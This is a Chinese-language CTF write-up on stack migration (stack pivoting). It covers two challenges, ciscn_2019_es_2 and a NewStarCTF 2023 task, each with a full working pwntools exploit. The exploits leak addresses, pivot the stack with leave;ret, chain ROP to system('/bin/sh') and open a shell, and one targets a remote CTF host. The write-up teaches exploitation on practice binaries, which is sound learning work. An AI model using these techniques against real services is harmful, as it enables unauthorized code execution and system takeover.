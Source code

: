 ```yaml
---
title: Stack Migration
tags: [ctf-pwn,stack]
date: 2023-10-11 14:10:00
categories: [ctf-pwn]
excerpt: 栈迁移/栈劫持
---
```


### Stack Migration

#### ciscn_2019_es_2

https://buuoj.cn/challenges#ciscn_2019_es_2

![](/img/stack_migration/1.jpg)

溢出的长度不足以写rop链，劫持rbp到一个足够大的空间里去

首先通过调试查看ebp到可输入空间开头的距离

```python
gdb.attach(p, "b *0x080485FC") # 在python pwntools里下断点的方法（要放在开头），进去按一下c
```

![](/img/stack_migration/2.jpg)

程序输出的rbp为`0xffdb7098`，和图中aaaa的位置相差0x38，一会就要将ebp覆盖为ebp-0x38，从而开辟足够的空间来构造rop

然后`vul()`函数原本的返回地址被`&(leave ret)`取代了这样在`vul()`执行结束时，相当于多执行一次leave ret

过程如下：

```
1. vul()原本的leave
esp->ebp-0x38   ebp->aaaa   esp->leave ret
2. vul()原本的ret
eip->leave ret  esp->比返回地址再低4个字节的位置上
3. leave
esp->aaaa    ebp == aaaa  esp->system@plt
4. ret 
eip->system@plt   esp->system的返回地址（瞎写的）
```

这时，就相当于一个普通的rop了，system@plt为一个被溢出的返回地址，在他后面的是system的返回地址和它的参数，而"/bin/sh\x00"为一个字符串，需要一个指针指向它，因此需要计算一下binsh的地址。

由于aaaa是ebp-0x38，binsh距离aaaa有16个字节，那么这个地方填上ebp-0x28，就能给system传进去binsh的参数了。



**exp**

```python
from pwn import *
r = process("./ciscn_2019_es_2")
#r=remote('node4.buuoj.cn',25391)
gdb.attach(r, "b *0x080485FC") 
sys=0x8048400
leave_ret=0x08048562
main=0xdeadbeef

payload='a'*0x27+'b'
r.send(payload)
r.recvuntil("b")
ebp = u32(r.recv(4))
print(hex(ebp))

payload2=b'aaaa'+p32(sys)+p32(main)+p32(ebp-0x28)+b"/bin/sh"
payload2=payload2.ljust(0x28,b'\x00')
payload2+=p32(ebp-0x38)+p32(leave_ret)

r.send(payload2)
r.interactive()
```

#### 





#### NewStarCTF 2**023** 

stack migration

![](/img/stack_migration/3.jpg)

和前面的唯一区别在于需要先泄露libc地址，题目又给了libc

需要注意的还是不要sendline，因为会多一个\n，占掉了下一次输入，payload2就输入不进去了

```python
from pwn import *
#p = process("./pwn")
p = remote("node4.buuoj.cn",25029)

#gdb.attach(p, "b *0x4012a9")
e = ELF("./pwn")

#context.log_level="debug"

leave_ret = 0x4012aa
poprdi_ret = 0x401333
puts_got = e.got["puts"]
puts_plt = e.plt["puts"]
#main = e.sym["main"]
main = 0x4012ac
start = 0x4010b0

p.recvuntil(b"your name:\n")
payload = b"12345678"
p.send(payload)
p.recvuntil(b"I have a small gift for you: ")
buf_addr = eval(p.recv(14))
print(hex(buf_addr))


p.recvuntil(b"more infomation plz:\n")
payload2 = ( p64(poprdi_ret) + p64(puts_got) + p64(puts_plt) + p64(start)).ljust(80,b'a')
payload2+= p64(buf_addr) + p64(leave_ret)
p.send(payload2)


p.recvuntil(b"maybe I'll see you soon!\n")

puts_addr = u64(p.recvuntil(b"\x7f").ljust(8,b"\x00"))

print("puts:----" + str(hex(puts_addr)))


libc = ELF("libc.so.6")
libc.address =  puts_addr - libc.sym['puts']
system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))


p.recvuntil(b"your name:\n")
payload = b"12345678"
p.send(payload)
p.recvuntil(b"I have a small gift for you: ")
buf_addr = eval(p.recv(14))
print(hex(buf_addr))

p.recvuntil(b"more infomation plz:\n")
payload2 = (p64(poprdi_ret) + p64(binsh) + p64(system)).ljust(80,b"a")
payload2+= p64(buf_addr) + p64(leave_ret)
p.sendline(payload2)

p.interactive()

```

